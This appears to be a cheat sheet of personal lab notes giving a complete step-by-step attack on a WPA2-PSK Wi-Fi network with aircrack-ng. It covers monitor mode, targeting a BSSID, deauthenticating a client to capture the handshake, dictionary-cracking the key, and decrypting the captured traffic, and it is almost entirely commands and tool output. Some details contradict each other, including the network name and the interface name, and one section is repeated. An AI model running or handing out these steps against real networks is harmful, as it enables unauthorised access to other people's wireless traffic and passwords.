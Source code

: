 # Set wlan into monitor mode
```bash
sudo airmon-ng start wlan1
```
-----------------------

# Identify targets 
```bash
sudo airodump-ng wlan1mon
```
-----------------------

# Identify targets 
```bash
sudo airodump-ng wlan1mon
```
-----------------------

# Specify target to sniff
```bash
sudo airodump-ng wlan1mon -c 3 -w wpa --essid KPN235434 --bssid 34:08:04:09:3D:38
```
#* We need to make sure that the AUTH is PSK because this does not work for MGT (Enterprise)

CH  3 ][ Elapsed: 12 s ][ 2020-02-29 13:30 ][

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 34:08:04:09:3D:38  -45  87      107       69    1   3  54e. WPA2 CCMP   PSK  wifu

 BSSID              STATION            PWR   Rate    Lost  Packets  Probes

 34:08:04:09:3D:38  00:18:4D:1D:A8:1F  -26   54-54      0       31
-----------------------

# Deauth the client with aireplay-ng
```bash
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```

  -a -> is BSSID target Access point
  -c -> is the client connected to it
-----------------------

# In airodump we should see the handshake is captured

CH  3 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 34:08:04:09:3D:38

Get more packages for later use

-----------------------

# Crack hash with aircrack-ng
```bash
aircrack-ng -w /usr/share/john/password.lst -e KPN235434 -b 34:08:04:09:3D:38 wpa-01.cap
```

                              Aircrack-ng 1.5.2

      [00:00:00] 3424/3559 keys tested (3516.42 k/s)

      Time left: 0 seconds                                     100.00%

                              KEY FOUND! [ Password!123 ]


      Master Key     : 27 A6 FB B3 FA 30 4C CD EE E5 8E 88 36 D0 CC 6D
                       A8 0D AB FE 06 D7 68 DF A1 0B 9F C7 30 03 4F 47

      Transient Key  : 8F C7 EF EF EF EF EF EF 60 1D EC 08 B7 4A 22 71
                       42 A1 A1 35 F2 76 DB C0 A4 42 06 15 5F E0 46 4D
                       E9 10 2F CD 51 22 CE 2E 77 CF 5E 69 DB E4 7C C5
                       FA 72 9A 45 25 D4 D6 53 8B 05 35 2D 24 01 C9 B6

      EAPOL HMAC     : AB D2 9E 97 66 C7 A6 77 7E 63 43 73 CC 73 9A 37
-----------------------

# Verify it's correct by decrypting captured packagees
```bash
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p Password!123 wpa-01.cap
```
Number of decrypted WPA  packets        37

-----------------------
